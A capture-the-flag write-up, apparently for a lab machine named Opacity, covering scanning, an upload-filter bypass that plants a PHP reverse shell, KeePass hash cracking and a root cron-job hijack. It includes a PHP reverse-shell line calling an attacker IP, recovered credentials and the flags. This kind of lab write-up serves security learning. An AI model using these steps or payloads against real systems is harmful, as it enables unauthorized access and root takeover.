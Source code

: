 # Opacity
(flags are at the end of the writeup)

### Opacity
Initial scan shows ports 22,80,139 and 445 open, and ports 9485, 11972 and 15370 filtered:

    # Nmap 7.94SVN scan initiated Wed Oct 30 06:32:33 2024 as: nmap -p22,80,139,445,9485,11972,15370 -sV -sC -oN scan 10.10.40.162
    Nmap scan report for 10.10.40.162
    Host is up (0.067s latency).
    
    PORT      STATE  SERVICE     VERSION
    22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
    |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
    |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
    80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
    | http-title: Login
    |_Requested resource was login.php
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    139/tcp   open   netbios-ssn Samba smbd 4.6.2
    445/tcp   open   netbios-ssn Samba smbd 4.6.2
    9485/tcp  closed unknown
    11972/tcp closed unknown
    15370/tcp closed unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Host script results:
    |_clock-skew: -1h00m52s
    |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb2-time: 
    |   date: 2024-10-30T09:32:00
    |_  start_date: N/A
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled but not required

Gobuster finds `/cloud` directory on the webserver: `gobuster dir -u http://10.10.40.162 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt`<br />
![image](https://github.com/user-attachments/assets/bbd215c0-4ffa-4411-a220-61147005a489)<br />
This page allows us to upload images. There's a filter that only allows strings ending with `.jpg` or `.png`. But we can upload a php file by simply adding a space before `.jpg`, like so: `http://10.11.108.100/revshell.php .jpg`. Open a python webserver on the attacker's machine and upload a php reverse shell. I used the one from [pentest monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Then open a netcat listener and visit `http://10.10.9.20/cloud/images/revshell.php`:<br />
![image](https://github.com/user-attachments/assets/58ff0220-c304-49f6-81d4-1fb2fa4ecf57)<br />
Inside `/opt` there's a KeyPass file:<br />
![image](https://github.com/user-attachments/assets/527e2e1d-e1ed-4691-a814-b31379d4be3c)<br />
So I transfered this file on my machine using netcat. And I used john to extract the hash of the password that protects this database: `keepass2john dataset.kdbx > hash.txt`. <br />
![image](https://github.com/user-attachments/assets/4ce0d56d-7bbd-4149-a788-aac3fafb1c87)<br />
Then run `john hash.txt` to crack it:<br />
![image](https://github.com/user-attachments/assets/c83e5b61-f7f0-40fe-86e8-f2628153b1a5)<br />
Now we can open the database with the following command: `keepassxc-cli open dataset.kdbx` and prompt `741852963` as password.<br />
![image](https://github.com/user-attachments/assets/385b27b8-c68c-4cbb-96d6-b122e57be292)<br />
To look at the password, add the `-s` flag:<br />
![image](https://github.com/user-attachments/assets/0944e2f0-b692-44a7-af9d-ecd504e0ddc0)<br />
Creds found: `sysadmin:Cl0udP4ss40p4city#8700`. Now inside the `/home/sysadmin/scripts` directory there's a `script.php` file that's owned by root, but that I can read: <br />
![image](https://github.com/user-attachments/assets/3dfab10f-5aef-4f2e-86cb-39459a2fa459)<br />
This is the content of the script: <br />
![image](https://github.com/user-attachments/assets/b65303f2-6f43-470a-8f1a-2f6892302e6d)<br />
Now if I use [pspy64](https://github.com/DominicBreuker/pspy), I get the following output:<br />
![image](https://github.com/user-attachments/assets/6000a74e-c667-4b4e-aab9-12a0a6e6003a)<br />
This means that this script is a cronjob running by root.
It essentially saves everything inside a backup folder, and then deletes everything. What's interesting is that it imports another php script called `backup.inc.php` inside the lib directory, which is owned by sysadmin!<br />
![image](https://github.com/user-attachments/assets/0128c19c-11c2-4eff-a2ac-e66b70d7f6a4)<br />
Every file is owned by root. But since I own the directory, I can move in and out every file I want. So the idea is to remove the `backup.inc.php` script out of this folder, and then copy it back on that folder, but this time owned by sysadmin. So first step: move the script outside the folder with `mv backup.inc.php /home/sysadmin/`. Now run `cp backup.inc.php scripts/lib/backup.inc.php`<br />
![image](https://github.com/user-attachments/assets/ca6670c5-3a73-4b24-aa12-52c33a364197)<br />
The script is now owned by sysadmin! We can now modify it to spawn a reverse shell as root, add the following line to the script: `$sock=fsockopen("10.11.85.53",4444);exec("sh <&3 >&3 2>&3");`<br />
![image](https://github.com/user-attachments/assets/1e06f2f3-978f-4bb2-84d7-eedc94de6e0a)<br />
Now open a netcat listener and wait for the reverse shell: <br />
![image](https://github.com/user-attachments/assets/967cbbb5-5a8d-4388-978e-fc1155204dbc)<br />




- What is the  local.txt flag? `6661b61b44d234d230d06bf5b3c075e2`
- What is the proof.txt flag? `ac0d56f93202dd57dcb2498c739fd20e`
